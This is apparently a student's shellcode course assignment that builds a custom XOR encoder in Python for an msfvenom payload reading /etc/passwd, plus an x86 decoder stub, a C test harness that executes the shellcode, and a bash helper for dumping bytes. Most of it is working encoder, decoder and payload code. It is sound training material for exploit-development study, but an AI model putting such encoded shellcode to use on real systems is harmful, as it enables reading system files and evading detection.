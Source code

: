 # Assignment 4: Custom Encoder

- Create a custom encoding scheme like the “Insertion Encoder” we showed you 
- PoC with using execve-stack as the shellcode to encode with your schema and execute 



For this assignment, I will be taking an msfpayload and writing a python script to encode it. Then I will wrap the msfvenomm payload in some assmebly that will decode itself in place and execute.

The msfvenom payload I will encode is generated with:

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
```

This results in the following shellcode:
```c
"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"
```

# Encoding: Python

The python script that will do the encoding is below:

```python
#!/bin/python3
import random
import binascii


# msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
payload = b"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"

output = ""
for b in payload:
    # new random byte to xor with
    while True:
        rand_byte = random.randbytes(1)

        # xor real shellcode byte with randomly generated byte
        new_shellcode_byte = b ^ int.from_bytes(rand_byte, 'little')

        # check if new shellcode will contatin 0xff or 0x00    
        if not rand_byte == 0xff and not new_shellcode_byte == 0xff and not rand_byte == 0x00 and not new_shellcode_byte == 0x00:
            break
        print("FOUND 0xFF or 0x00 in rand_byte or new_shellcode_byte, generating new random byte!!")
        
    # print(f"{hex(b)} ^ {hex(int.from_bytes(rand_byte, 'little'))} = {hex(new_shellcode_byte)}")
    output += '\\x' + binascii.hexlify(rand_byte).decode('utf-8')
    output += '\\x' + hex(new_shellcode_byte)[2:].zfill(2)

# append our end stub to the end of our payload. This signifies the exit condition.
output += '\\xff\\xff'


print(f"\n{output}\n")
print(", 0x".join(output.split('\\x'))[2:])
print("\nlength: " + str(len(output.split('\\x')) - 1), " - hex: ", str(hex(len(output.split('\\x')) - 1)))
```

This script accepts the original shellcode in the `payload` variable. It then iterates and generates a random byte to xor with each byte of the original payload.

The new shellcode will be in the form of `<random_byte><old_byte ^ random_byte>`. 

If either of these bytes are a `0x00` or `0xff`, a new random byte is generated and the old shellcode is xor'd with the new random byte. This is to avoid `0x00` in the new payload and `0xff` which will be appended as the exit condition during decoding.

# Decoder: Assembly



```x86asm
; Filename: custom_decode.nasm
; read /etc/passwd


global _start

section .text
_start:
	jmp _shellcode


_decode_stub:
	pop esi 						; ptr to encoded_shellcode
	xor ecx, ecx			
	mul ecx							; ecx, edx, eax all cleared
	xor ebx, ebx					; ebx cleared

_loop:
	mov dl, byte [esi + ecx]		; mov random byte to dl
	mov bl, byte [esi + ecx + 1]	; mov next instruction to be xor'ed
	
	; exit condition
	cmp bl, 0xff 					; is next byte to xor a 0xff 
	jz _execute
	
	xor bl, dl
	mov byte [esi + eax], bl		; move dl to shellcode
	add ecx, 0x2
	inc eax
	jmp _loop


_execute:
	jmp esi


; section .data						; need .data section to be writable
									; OR, compile with 'ld -N' to make .text section not read-only
_shellcode:
	call _decode_stub
	encoded_shellcode: db 0x8b, 0x56, 0x97, 0x56, 0xab, 0x14, 0x77, 0x27, 0x8e, 0x4a, 0x1b, 0x5a, 0x9a, 0x3e, 0x22, 0xfb, 0xc8, 0xbc, 0xef, 0xcb, 0x74, 0x80, 0x91, 0xcb, 0x1c, 0x37, 0x55, 0x9c, 0xce, 0x7f, 0x9c, 0x8f, 0x17, 0x26, 0xb3, 0xc9, 0x90, 0x88, 0x66, 0x65, 0xf2, 0x88, 0x7b, 0x63, 0xcb, 0x48, 0x78, 0xba, 0x40, 0x14, 0x23, 0x05, 0x91, 0x25, 0xa2, 0xed, 0xd7, 0xb5, 0x01, 0x1f, 0xd2, 0xe0, 0xae, 0x3e, 0xef, 0x65, 0x0f, 0x51, 0x37, 0x51, 0x45, 0xe4, 0xe9, 0xaa, 0xcb, 0x58, 0x4a, 0x52, 0x83, 0xcb, 0xf9, 0x69, 0x3b, 0xaf, 0x2b, 0x31, 0x86, 0xcd, 0x28, 0x3e, 0xd1, 0x34, 0xf3, 0x66, 0xed, 0x41, 0x42, 0xdd, 0xb4, 0xa8, 0x59, 0x46, 0x81, 0xb3, 0x77, 0xf8, 0xca, 0x14, 0x76, 0x16, 0x04, 0xfa, 0x96, 0xb9, 0x82, 0xd5, 0xd3, 0x71, 0x7d, 0xc5, 0x7e, 0x55, 0xcc, 0xa4, 0x86, 0xa5, 0x6e, 0xd7, 0x66, 0xee, 0xd4, 0xbd, 0xcc, 0xef, 0x5d, 0xe4, 0x78, 0x96, 0xe7, 0x43, 0xd4, 0x77, 0x71, 0x70, 0xb7, 0x58, 0x9d, 0xab, 0xb6, 0x12, 0x74, 0x05, 0xfe, 0xaa, 0x4a, 0x7c, 0xb5, 0x11, 0x42, 0x33, 0x09, 0xa3, 0xc2, 0x38, 0x3f, 0x1b, 0xf5, 0x6c, 0xd7, 0xb8, 0xbd, 0x46, 0x09, 0xd3, 0x66, 0xc3, 0x5b, 0x1b, 0x08, 0x69, 0x77, 0x26, 0xb4, 0x8d, 0x16, 0xa7, 0xcd, 0xd4, 0x76, 0x8e, 0x1c, 0xd2, 0x75, 0xcb, 0x94, 0x3a, 0x09, 0x97, 0x39, 0x09, 0xff, 0xff

```

Here, the `encoded_shellcode` is the output from the previous python encoder script.

This assembly just reverses the encoding process. First, a pointer to the original shellcode is loaded into the `esi` register using the jmp, call, pop technique.

It then jumps by 2 bytes during each loop and grabs the random_byte in `dl` and the xor'd original byte in `bl`. It then xor's these two values for the actual original byte, and overwrites the encoded shellcode in place.

Once an `0xff` is found, the exit condition has been met, and the code jumps to the position pointed at by `esi`, the decoded shellcode.

# Testing

This can be tested with the following test_decoder.c file:
```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\xeb\x20\x5e\x31\xc9\xf7\xe1\x31\xdb\x8a\x14\x0e\x8a\x5c\x0e\x01\x80\xfb\xff\x74\x0b\x30\xd3\x88\x1c\x06\x83\xc1\x02\x40\xeb\xe9\xff\xe6\xe8\xdb\xff\xff\xff\x8b\x56\x97\x56\xab\x14\x77\x27\x8e\x4a\x1b\x5a\x9a\x3e\x22\xfb\xc8\xbc\xef\xcb\x74\x80\x91\xcb\x1c\x37\x55\x9c\xce\x7f\x9c\x8f\x17\x26\xb3\xc9\x90\x88\x66\x65\xf2\x88\x7b\x63\xcb\x48\x78\xba\x40\x14\x23\x05\x91\x25\xa2\xed\xd7\xb5\x01\x1f\xd2\xe0\xae\x3e\xef\x65\x0f\x51\x37\x51\x45\xe4\xe9\xaa\xcb\x58\x4a\x52\x83\xcb\xf9\x69\x3b\xaf\x2b\x31\x86\xcd\x28\x3e\xd1\x34\xf3\x66\xed\x41\x42\xdd\xb4\xa8\x59\x46\x81\xb3\x77\xf8\xca\x14\x76\x16\x04\xfa\x96\xb9\x82\xd5\xd3\x71\x7d\xc5\x7e\x55\xcc\xa4\x86\xa5\x6e\xd7\x66\xee\xd4\xbd\xcc\xef\x5d\xe4\x78\x96\xe7\x43\xd4\x77\x71\x70\xb7\x58\x9d\xab\xb6\x12\x74\x05\xfe\xaa\x4a\x7c\xb5\x11\x42\x33\x09\xa3\xc2\x38\x3f\x1b\xf5\x6c\xd7\xb8\xbd\x46\x09\xd3\x66\xc3\x5b\x1b\x08\x69\x77\x26\xb4\x8d\x16\xa7\xcd\xd4\x76\x8e\x1c\xd2\x75\xcb\x94\x3a\x09\x97\x39\x09\xff\xff";


int main(){
  printf("Shellcode length: %d\n", strlen(code));
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  printf("mprotect: %d\n",r);
  int (*ret)() = (int(*)())code;
  return ret();
}
```


To obtain the `code` here, we compile and link the assembly defined above. However, due to the large data blob of the encoded shellcode, I was receiving errors when trying to execute this test_decoder.c file. Upon further inspection, I noticed my previous function to dump shellcode was removing important bytes from my shellcode. Thus, I rewrote it to (hopefully) be more consistant:

```bash
dump-shellcode () {
    # OLD METHOD
    # objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

    # NEW METHOD
    objdump -d "$1" |grep '[0-9a-f]:' | grep -v file | cut -d':' -f2- | sed 's/^\W*//g' | grep -Po "^([0-9a-f]{2} )+" | tr -d '\n' | sed 's/\W/\\x/g' | sed 's/^/\\x/g' | rev | cut -c3- |rev
}
```

running `dump-shellcode <compiled_linked_assembly_binary>` resulted in the full encoded shellcode and worked flawlessly. 

Once the `test.c` file is in order, it can be compiled and ran using:
```bash
gcc -fno-stack-protector -z execstack -m32 template.c -o test_decoder
./test_decoder
``` 
